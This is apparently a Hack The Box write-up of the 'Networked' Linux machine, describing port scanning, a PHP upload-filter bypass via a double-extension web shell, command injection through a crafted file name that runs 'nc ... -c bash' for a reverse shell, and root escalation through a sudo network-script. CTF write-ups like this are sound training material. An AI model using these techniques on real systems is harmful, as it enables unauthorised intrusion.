









# Networked - Linux (Easy)

## Summary
Networked had a relatively challenging user foothold aspect, requiring me to abuse an Apache misconfiguration allowing for file upload bypassing. After getting the first reverse shell as `www-data`, I exploited command injection in a script and then used an `ifcg` script to fully escalate my privileges as root. 

## Enumeration

I started Enumeration by running Rustscan on the the target.

```
rustscan -a $machine_IP -- -A -sV -sC -T4 -vv

-sC - Script Scan
-sV - Version Scan
-T4 - Timing Template
-A  - Aggresive Scan Options
-vv - Verbosity level

rustscan -a $machine_IP -- -A -sV -sC -T5 -v
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open $machine_IP:22
Open $machine_IP:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)

80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
```

## Port 80 - HTTP

The HTTP Landing Page indicates a regular message but running Gobuster on the target reveals the presence of a `backup` and `uploads` directory




```
tar -xvf backup.tar

index.php
lib.php
photos.php
upload.php
```

## Source Code Review

`upload.php` ensures that appropriate steps are being followed to ensure that an uploaded file is saved properly. There is a required condition that the `check_file_type($_FILES["myFile"])` is set to True and the file size is less than 60 KiB. A MIME type typically comes from checking the MIME database for file signatures. So something that starts with `MZ` is a Windows exe (or DLL). Linux executables start with `\x7fELF`. [Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures) has a great page detailing this. So, as long as I send a small file that looks like an image to start, it will be saved as `machine_IP.$ext`, where `$ext` is anything after the first `.` in the original file name.

`upload.php` has a file upload functionality. Once a legitimate file is uploaded, `photos.php` shows the uploaded file and this can be potentially exploited to get a reverse shell. 





```
http://machine_IP/uploads/machine_IP.php.jpeg?cmd=id
```

I can explore this further to get a bash reverse shell which is base64 encoded as it doesn't accept spaces and pick this up further.



## Privilege Escalation

I initially get a basic shell as the `www-data` user. `crontab.guly` shows a configuration file that runs `php /home/guly/check_attack.php` every 3 minutes where `check_attack.php` is a script that processes files in `upload`





However, I am able to skip modifying the source code to get a reverse connection by creating a new file that follows the `;` separator

```
touch '; nc $machine_IP 4444 -c bash'
```

Once this was inserted, I only had to wait for a couple of minutes before picking up the netcat reverse shell



I was able to grab the `user.txt` flag and run `sudo -l` to identify what the current user can run as root and exploit this to escalate privileges.



```
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
test bash
interface PROXY_METHOD:
test

interface BROWSER_ONLY:
test
interface BOOTPROTO:
test
[root@networked network-scripts]# whoami
root
[root@networked network-scripts]# id
uid=0(root) gid=0(root) groups=0(root)
```

